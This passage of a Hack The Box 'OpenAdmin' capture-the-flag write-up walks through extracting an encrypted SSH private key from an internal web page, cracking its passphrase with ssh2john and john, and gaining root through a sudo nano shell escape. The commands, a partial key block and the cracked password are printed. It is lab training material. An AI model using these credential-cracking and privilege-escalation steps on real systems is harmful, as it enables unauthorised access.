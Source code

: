 by view the content, I'm sure that the `internal` is running on this port! now let use `curl` to get `main.php`
```console
jimmy@openadmin:/var/www/internal$ curl http://localhost:52846/main.php --output test.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1902  100  1902    0     0   168k      0 --:--:-- --:--:-- --:--:--  185k
jimmy@openadmin:/var/www/internal$ cat test.txt 
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
.
.
.
```
now copy the key content and paste in kali

# foothold as Joanna
as you can see the key is encrypted which will ask us for a passphase if you will use the key. I try to `ssh` and using jimmy's password again since in one of the `.php` said something like `dont forget that we are ninja`. But it didnt works.. so let use `ssh2john` to passphase hash then use `john` to crack it
```console
bibo318@kali:/home/kali/HTB/openadmin# find / -name ssh2john*
/usr/share/john/ssh2john.py
bibo318@parrot:~/HTB/openadmin$ /usr/share/john/ssh2john.py joanna.pub > hash.txt
bibo318@parrot:~/HTB/openadmin$ sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
bloodninjas      (joanna.pub)
```
WE GOT THE PASSWORD!!! let's ssh as Joanna
```
bibo318@parrot:~/HTB/openadmin$ ssh joanna@openadmin.htb -i joanna.pub
load pubkey "joanna.pub": invalid format
Enter passphrase for key 'joanna.pub': 
joanna@openadmin:~$ cat user.txt
```

# root
```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
oh I know this trick, seem like to gain root is easier that what I expected. we will use `nano` to open `/opt/priv` and then spawn an interactive system shell, read more about it on [GTFObins/nano](https://gtfobins.github.io/gtfobins/nano/)
```console
joanna@openadmin:~$ sudo /bin/nano /opt/priv
^R^X
Command to execute: reset; sh 1>&0 2>&0#                                                                                       
#  Get Help                                                    ^X Read File
#  Cancel                                                      M-F New Buffer
```